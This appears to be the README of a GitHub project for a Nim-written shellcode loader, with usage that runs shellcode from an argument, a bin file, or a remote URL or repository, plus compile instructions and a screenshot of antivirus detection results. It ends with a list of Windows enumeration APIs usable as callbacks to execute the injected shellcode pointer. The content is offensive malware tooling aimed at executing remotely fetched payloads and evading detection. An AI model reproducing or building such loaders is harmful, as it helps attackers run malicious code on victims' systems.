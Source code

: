 # nim_shellloader

nim编写的shell_loader

详见以下:
details:
# usage
```
loader.exe payload.bin
loader.exe  (yourshellcode)
loader.exe (http://xxxx/xxx)
```
put your url/bin/shellcode direct
后面直接跟shellcode内容 或者bin文件名 或者网址就行


①use shellcode:

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/1.gif)

②use bin file

使用bin文件加载shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/2.gif)

③ load the shellcode which on your server(remote load)
加载你服务器上的shellcode

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/3.gif)

Besides,You can load shellcode which on your reposiotory(gitee,github,etc.) like this

此外 你还可以把shellcode放在github，gitee的地方让loader去读

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/4.png)

Notice:You must remove '\x' on your shellcode

注意:你必须去除你shellcode中的 \x

![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/5.png)


查杀情况


![](https://github.com/sh3d0ww01f/nim_shellloader/blob/master/image/6.png)

# 编译 compile

step1:   setup  require   安装所需的库
```
nimble install https://gitee.com/oagi/winim.git
nimble install https://gitee.com/oagi/nim-stew
```
step2: generate exe   生成exe
```
nim c --cpu:i386 -d:mingw -d:ssl --opt:size shellcode_loader.nim
```
#Advise 建议
windows上编译容易出现玄学问题 可以用debian11交叉编译 不过记得要装gcc
It's easy to have problem if you compile it on Windows Platform.In my opion,you'd better compile it on Linux

## 源码中的EnumSystemGeoID回调函数可以换成以下函数 等价
```
# Callback execution
    EnumSystemGeoID(GEOCLASS_NATION,0,cast[GEO_ENUMPROC](rPtr)) #①
    EnumChildWindows(cast[HWND](nil),cast[WNDENUMPROC](rPtr),cast[LPARAM](nil))#②
    EnumDateFormatsA(cast[DATEFMT_ENUMPROCA](rPtr) , LOCALE_SYSTEM_DEFAULT, cast[DWORD](0))#③
    EnumDesktopsW(GetProcessWindowStation(),cast[DESKTOPENUMPROCW](rPtr), cast[LPARAM](nil))#④
    EnumDesktopWindows(GetThreadDesktop(GetCurrentThreadId()),cast[WNDENUMPROC](rPtr), cast[LPARAM](nil))#⑤
    EnumSystemCodePagesA(cast[CODEPAGE_ENUMPROCA](rPtr) ,0)#⑥
    EnumSystemCodePagesW(cast[CODEPAGE_ENUMPROCW](rPtr), CP_INSTALLED)#⑦
    EnumSystemLanguageGroupsA(cast[LANGUAGEGROUP_ENUMPROCA](rPtr),LGRPID_SUPPORTED,0)#⑧
    EnumSystemLocalesA(cast[LOCALE_ENUMPROCA](rPtr) ,nil)#⑨
    EnumThreadWindows(0,csat[WNDENUMPROC](rPtr),0) #⑩
    EnumUILanguagesA(cast[UILANGUAGE_ENUMPROCA](rPtr), MUI_LANGUAGE_ID, 0)#11
    EnumWindows(cast[WNDENUMPROC](rPtr), nil)#12
```
